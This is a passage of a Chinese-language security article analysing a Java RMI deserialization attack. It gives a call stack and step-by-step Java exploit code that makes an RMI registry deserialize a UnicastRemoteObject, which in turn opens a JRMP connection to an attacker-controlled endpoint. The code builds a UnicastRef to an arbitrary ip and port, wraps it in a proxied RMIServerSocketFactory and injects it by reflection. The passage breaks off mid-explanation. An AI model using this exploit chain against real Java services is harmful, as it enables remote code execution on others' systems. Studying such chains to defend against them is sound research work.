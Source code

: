 调用栈

```
readObject:431, ObjectInputStream (java.io)
executeCall:252, StreamRemoteCall (sun.rmi.transport)
invoke:161, UnicastRef (sun.rmi.server)
invokeRemoteMethod:227, RemoteObjectInvocationHandler (java.rmi.server)
invoke:179, RemoteObjectInvocationHandler (java.rmi.server)
createServerSocket:-1, $Proxy0 (com.sun.proxy)
newServerSocket:666, TCPEndpoint (sun.rmi.transport.tcp)
listen:335, TCPTransport (sun.rmi.transport.tcp)
exportObject:254, TCPTransport (sun.rmi.transport.tcp)
...
exportObject:346, UnicastRemoteObject (java.rmi.server)
reexport:268, UnicastRemoteObject (java.rmi.server)
readObject:235, UnicastRemoteObject (java.rmi.server)
```

### 漏洞利用
1. 需要一个向服务端发起JRMP连接的UnicastRef，这里ysoserial有相关代码，并且在LocateRegistry.getRegistry里也有相应代码。
```
ObjID id = new ObjID(new Random().nextInt()); // RMI registry
TCPEndpoint te = new TCPEndpoint(ip, port);
UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
```
1. 创建RemoteObjectInvocationHandler的代理类，ssf是RMIServerSocketFactory类型。
```
RemoteObjectInvocationHandler remoteObjectInvocationHandler = new RemoteObjectInvocationHandler(ref);

RMIServerSocketFactory rmiServerSocketFactory = (RMIServerSocketFactory) Proxy.newProxyInstance(
                RMIServerSocketFactory.class.getClassLoader(), new Class[] `{`
                RMIServerSocketFactory.class, Remote.class
`}`, remoteObjectInvocationHandler);
```
1. 将ssf的值设置成创建的代理类，但是由于是private类型，所以需要用反射来赋值。
```
Constructor&lt;?&gt; constructor = UnicastRemoteObject.class.getDeclaredConstructor(null);
        constructor.setAccessible(true);
        UnicastRemoteObject clz = (UnicastRemoteObject) constructor.newInstance(null);
        Field ssf = UnicastRemoteObject.class.getDeclaredField("ssf");
        ssf.setAccessible(true);
ssf.set(clz,rmiServerSocketFactory);
```

然后我们利用Server端进行bind，让注册中心反序列化这个UnicastRemoteObject对象，不过序列化的时候出现了问题，在调用RegistryImpl_Stub.bind的时候，进行writeObject的时候。

[![](https://p403.ssl.qhimgs4.com/t01ce1b2a7f72262e0f.png)](https://p403.ssl.qhimgs4.com/t01ce1b2a7f72262e0f.png)

如果enableReplace为true。

[![](https://p403.ssl.qhimgs4.com/t010c68f5a4abd1ff40.png)](https://p403.ssl.qhimgs4.com/t010c68f5a4abd1ff40.png)
